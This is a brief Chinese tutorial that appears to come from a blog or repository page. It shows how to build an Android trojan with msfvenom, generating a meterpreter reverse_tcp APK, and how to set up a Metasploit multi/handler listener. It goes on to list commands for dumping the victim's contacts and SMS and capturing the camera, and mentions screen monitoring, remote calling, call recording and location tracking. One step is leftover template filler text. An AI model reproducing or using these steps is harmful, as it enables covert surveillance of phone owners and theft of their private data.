





# KaliLinux下编写安卓木马

## 1：查看本机IP地址；命令ifconfig

## 2：在终端输入 msfvenom -p android/meterpreter/reverse_tcp LHOST=本机ip LPORT=55555 R > /root/apk.apk

## 3：在这里输入你的内容，注意不要用删除键把所有文字删除，请保留一个或者用鼠标选取后TXT文档复制粘贴替换，防止格式错乱。

## 4：这时我们可以看到，桌面上生成了一个apk的文件。

将其安装到手机

## 5：终端msfconsole

一，然后输入：

二，1. use exploit/multi/handler 加载模块

三，2. set payload android/meterpreter/reverse_tcp  选择Payload

四，3.show options 查看参数设置

## 6：1.set LHOST 本机ip 这里的地址设置成我们刚才生成木马的IP地址

2.exploit 开始执行漏洞 开始监听...

7：导出电话号码；命令dump_contacts

截获短信；dump_sms    

截取摄像头

写在后面

当然还可以获取更多的信息，比如获取对方的屏幕的监控，远程拨打电话号码，开启电话录音功能，地位等等。